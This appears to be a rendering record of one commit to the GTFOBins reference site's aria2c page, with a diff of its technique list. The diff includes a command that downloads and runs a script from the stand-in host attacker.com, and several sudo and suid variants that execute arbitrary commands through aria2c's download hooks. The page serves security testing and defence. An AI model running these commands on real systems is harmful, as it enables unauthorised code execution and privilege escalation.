

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/aria2c.md, in a window 1280 px wide. Shown: the whole page at 89% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 904 px from its top, so only the background shows below that.

Commit message:
Add a full local version of aria2c and add --allow-overwrite
Close #22

```diff
--- a/_gtfobins/aria2c.md
+++ b/_gtfobins/aria2c.md
@@ -1,13 +1,27 @@
 ---
-description: |
-  Note that the subprocess is immediately sent to the background.
-
-  The remote file `aaaaaaaaaaaaaaaa` (must be a string of 16 hex digit) contains the shell script. Note that said file needs to be written on disk in order to be executed.
+description: Note that the subprocess is immediately sent to the background.
 functions:
   execute-non-interactive:
-    - code: aria2c --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://attacker.com/aaaaaaaaaaaaaaaa
+    - code: |
+        COMMAND='id'
+        TF=$(mktemp)
+        echo "$COMMAND" > $TF
+        chmod +x $TF
+        aria2c --on-download-error=$TF http://x
+    - description: The remote file `aaaaaaaaaaaaaaaa` (must be a string of 16 hex digit) contains the shell script. Note that said file needs to be written on disk in order to be executed.
+      code: aria2c --allow-overwrite --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://attacker.com/aaaaaaaaaaaaaaaa
   suid-enabled:
-    - code: ./aria2c --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://attacker.com/aaaaaaaaaaaaaaaa
+    - code: |
+        COMMAND='id'
+        TF=$(mktemp)
+        echo "$COMMAND" > $TF
+        chmod +x $TF
+        ./aria2c --on-download-error=$TF http://x
   sudo-enabled:
-    - code: sudo aria2c --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://attacker.com/aaaaaaaaaaaaaaaa
+    - code: |
+        COMMAND='id'
+        TF=$(mktemp)
+        echo "$COMMAND" > $TF
+        chmod +x $TF
+        sudo aria2c --on-download-error=$TF http://x
 ---
```
